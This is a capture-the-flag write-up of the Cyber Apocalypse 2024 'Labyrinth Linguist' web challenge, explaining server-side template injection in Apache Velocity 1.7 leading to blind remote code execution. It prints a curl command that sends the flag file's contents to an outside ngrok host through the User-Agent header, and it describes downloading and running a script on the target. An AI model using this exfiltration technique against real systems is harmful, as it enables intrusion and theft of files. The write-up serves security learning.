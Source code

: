 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Labyrinth Linguist Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: web
challenge: Labyrinth Linguist
tags: "web, twh, ssti"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## Labyrinth Linguist
> Solved by : thewhiteh4t


- In this challenge we have a translation service
- Upon inspecting source files, we noticed few things : 
    - flag file is partially randomized in `entrypoint.sh`

```
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

- In `pom.xml` we can see the dependencies and their version information :

```xml
<parent>
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-parent</artifactId>
  <version>1.5.10.RELEASE</version>
</parent>

<dependencies>
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
</dependencies>
```

- Velocity v1.7 is vulnerable to SSTI attack
- References :
```
https://antgarsil.github.io/posts/velocity/
https://iwconnect.com/apache-velocity-server-side-template-injection/
```
- Based on the PoC above we ran the test case

```
#set ($run=1 + 1) $run
```

![](https://i.imgur.com/AltGQxG.png)

- RCE was blind because we had no output of the commands so we used `ngrok` for getting a callback to confirm if the payload was working
- Then we tried reverse shells but none of them worked for some reason so we thought to simplify we can make it download a file
- And since the command output was not visible we used web requests to exfiltrate the flag by setting custom user agent in curl command

```
> cat pwn

curl "https://f084-116-74-26-67.ngrok-free.app/special" -H "User-Agent: $(cat /flag*)"
```

![](https://i.imgur.com/8itLO2W.png)

- After sending the file we send a second request to run it using : `sh pwn`


![](https://i.imgur.com/sWeNay4.png)



- Web logs in ngrok dashboard :


![](https://i.imgur.com/o1yA2db.png)

